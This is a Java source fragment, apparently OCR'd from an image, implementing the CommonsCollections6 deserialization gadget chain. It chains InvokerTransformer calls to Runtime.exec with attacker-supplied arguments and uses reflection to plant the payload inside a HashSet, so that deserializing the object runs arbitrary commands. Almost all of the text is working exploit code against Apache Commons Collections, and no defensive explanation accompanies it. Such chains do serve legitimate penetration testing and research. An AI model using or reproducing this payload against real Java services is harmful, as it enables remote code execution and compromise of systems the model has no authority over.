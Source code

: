 ```java
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);

        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        Reflections.setAccessible(f);
        HashMap innimpl = (HashMap) f.get(map);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        Reflections.setAccessible(f2);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }

        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        Reflections.setAccessible(keyField);
        keyField.set(node, entry);

        return map;

    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections6.class, args);
    }
}
```